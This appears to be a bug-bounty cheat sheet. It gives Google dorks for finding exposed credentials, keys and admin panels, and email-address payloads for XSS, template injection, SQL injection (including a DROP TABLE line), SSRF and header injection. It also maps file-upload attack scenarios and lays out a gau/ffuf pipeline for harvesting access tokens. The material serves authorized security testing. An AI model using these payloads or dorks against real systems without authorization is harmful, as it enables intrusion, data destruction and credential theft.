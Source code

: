 Tips

## Bunch of web related stuff to read 

https://pentester.land/

---

## Web ui to test your code 

 jsfiddle.net 

---


## Don't find what you need ? List of writeups, search with keywords.

https://pentester.land/list-of-bug-bounty-writeups.html?fbclid=IwAR1_Q5WRS8Q0mmF4fpxMXLeWmboBxicAAdyqscrnGB1Uxiznu-FjS1xJZSs

---

## Drupal 

Find hidden pages : fuzz /node/$ where $ is a number.

---

## Payload needed ? Here are lists

- SecLists
- Payloadallthethings
- https://portswigger.net/web-security/sql-injection/cheat-sheet
- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

---

## Need info on how to hunt something ?

https://github.com/KathanP19/HowToHunt
https://www.infosecmatter.com/bug-bounty-tips-1/

---



## Some google dorks

```
inurl:example.com intitle:"index of"
inurl:example.com intitle:"index of /" "*key.pem"
inurl:example.com ext:log
inurl:example.com intitle:"index of" ext:sql|xls|xml|json|csv
inurl:example.com "MYSQL_ROOT_PASSWORD:" ext:env OR ext:yml -git
site:target.com inurl:admin | administrator | adm | login | l0gin | wp-login
intitle:"login" "admin" site:target.com
inurl:admin site:target.com
site:target.com ext:txt | ext:doc | ext:docx | ext:odt | ext:pdf | ext:rtf | ext:sxw | ext:psw | ext:ppt | ext:pptx | ext:pps | ext:csv | ext:mdb
intitle:"index of /" Parent Directory site:target.com
intitle:"index of /admin" site:target.com
intitle:"index of /password" site:target.com
intitle:"index of /mail" site:target.com
intitle:"index of /" (passwd | password.txt) site:target.com
intitle:"index of /" .htaccess site:target.com
inurl:passwd filetype:txt site:target.com
inurl:admin filetype:db site:target.com
filetype:log site:target.com
link:target.com -site:target.com
```


---

## Email address payload 

By @securinti (compiled by @intigriti)
Source: link

The following payloads are all valid e-mail addresses that we can use for pentesting of not only web based e-mail systems.

XSS (Cross-Site Scripting):

```
test+(<script>alert(0)</script>)@example.com
test@example(<script>alert(0)</script>).com
"<script>alert(0)</script>"@example.com
```

Template injection:
```
"<%= 7 * 7 %>"@example.com
test+(${{7*7}})@example.com
```

SQL injection:
```
"' OR 1=1 -- '"@example.com
"mail'); DROP TABLE users;--"@example.com
```

SSRF (Server-Side Request Forgery):
```
john.doe@abc123.burpcollaborator.net
john.doe@[127.0.0.1]
```

Parameter pollution:
```
victim&email=attacker@example.com
```

(Email) header injection:
```
"%0d%0aContent-Length:%200%0d%0a%0d%0a"@example.com
"recipient@test.com>\r\nRCPT TO:<victim+"@test.com
```

---

## Top 10 file upload scenario

ASP / ASPX / PHP5 / PHP / PHP3: Webshell / RCE
SVG: Stored XSS / SSRF / XXE
GIF: Stored XSS / SSRF
CSV: CSV injection
XML: XXE
AVI: LFI / SSRF
HTML / JS : HTML injection / XSS / Open redirect
PNG / JPEG: Pixel flood attack (DoS)
ZIP: RCE via LFI / DoS
PDF / PPTX: SSRF / BLIND XXE

---

## Find access tokens with ffuf and gau
By @Haoneses

- Gather all links of your target:
`cat hosts | sed 's/https\?:\/\///' | gau > urls.txt`

- Filter out javascript urls:
`cat urls.txt | grep -P "\w+\.js(\?|$)" | sort -u > jsurls.txt`

- Use ffuf to get only valid links and send them right into Burp:
`ffuf -mc 200 w jsurls.txt:HFUZZ -u HFUZZ -replay-proxy http://127.0.0.1:8080`

- Use Scan Check Builder Burp extension, add passive profile to extract “accessToken” or “access_token”.

- In Burp run passive scan on those javascript links.

- Extract found tokens and validate them before reporting.

- Use KeyHacks to identify particular API keys, how can they be used and how to check if they are valid.

- Make sure to also try to extract other file types such as .php, .json etc. (Step 2).


## Find out what websites are built with
By @akita_zen


- This one can help identify what technology a particular website (or a list of websites) was built with.

`cat urls-alive.txt | parallel -j 50 "echo {}; python3 main.py analyze --url {}"`

git clone https://github.com/vincd/wappylyzer.git

---

## NTLM authentication with BurpSuite

1. proxy / options / uncheck "Set Connection Close"
2. User Options / platform authentication / add NTLM

NTLM authenticates the TCP connection, which is not kept alive when using a proxy. This trick solve the issue.





